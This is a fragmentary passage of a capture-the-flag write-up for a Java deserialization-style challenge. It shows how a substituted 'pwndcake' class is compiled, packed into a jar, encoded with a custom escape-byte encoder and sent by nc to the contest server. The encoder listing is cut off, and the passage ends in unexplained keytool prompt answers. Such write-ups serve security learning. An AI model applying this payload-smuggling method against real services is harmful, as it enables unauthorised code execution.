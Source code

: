 ```java
}
```
I went to build my pwndcake
```shell
javac Cake.java NewYorkCheeseCake.java
Cake.java:21: illegal start of type
        ingredientsList = new LinkedList<>();
```
Looks like an error. Since strings are being added to that list in the original NewYorkCheeseCake class I just put string in between the angle brackets and tried to compile again.
```
javac Cake.java NewYorkCheeseCake.java
ingredientsList = new LinkedList<String>();
Cake.java:3: package com.sun.istack.internal does not exist
import com.sun.istack.internal.NotNull;
                              ^
Cake.java:29: cannot find symbol
symbol  : class NotNull
location: class it.polimi.necst.johncakedesigner.Cake
    public @NotNull List<String> getIngredients() {
            ^
2 errors
```
I just removed the import line and the @NotNull decorator and tried to compile again. This time it worked. Then I needed to pack it into a jar file.
```shell
mkdir -p it/polimi/necst/johncakedesigner && cp NewYorkCheeseCake.class $\_
jar -cfe pwndcake.jar it.polimi.necst.johncakedesigner.NewYorkCheeseCake it
```

It took me a while to figure out how to do this right. The path needs to be it/polimi/necst/johncakedesigner because of the package name it.polimi.necst.johncakedesigner. I sent the jar.
```
nc pastry.polictf.it 80 < pwndcake.jar
Welcome to John's Pastry Shop!
[Error] zip file is empty Exit now..
```
No luck, it thinks the jar is empty since it isn't encoded like it should be. I took a closer look at the decoding algorithm and wrote an encoder. Essentially the decoder expects an INIT\_BYTE (0x17) at the beginning of the file, an EXIT\_BYTE (0x19) at the end of the file, and any occurances of INIT\_BYTE or EXIT\_BYTE in the middle of the file with ESCAPE\_BYTE (0x18). ESCAPE\_BYTEs that are not escaping other bytes are also escaped with an ESCAPE\_BYTE (like \\\\ in the shell). From this knowledge I wrote an encoder to take a normal jar file from stdin, encode it, and write the encoded bytes to the file encoded.jar.
```java
import java.io.File;
import java.io.FileOutputStream;
import java.io.IOException;
public class Encode {
    private static final byte INIT_BYTE = (byte) 0x17;
    private static final byte ESCAPE_BYTE = (byte) 0x18;
    private static final byte EXIT_BYTE = (byte) 0x19;
    public static void main(String args[]){
        int read;
        try {
            File file = new File("encoded.jar");
            FileOutputStream outputStream = new FileOutputStream(file);
            outputStream.write((byte) INIT_BYTE);
            while ((read = System.in.read()) != -1) {
                if ((byte) read == INIT_BYTE || (byte)read == EXIT_BYTE\|| (byte)read == ESCAPE_BYTE){
                    outputStream.write((byte) ESCAPE_BYTE);
                }
                outputStream.write((byte) read);
            }
```

  [no]:  yes
  [Unknown]:  Shamano Pastry Shop
  [Unknown]:  Shamano Cooking Service
  [Unknown]:  Shamano Inc.
  [Unknown]:  Milano
  [Unknown]:  Italy
  [Unknown]:  IT
  [no]:  yes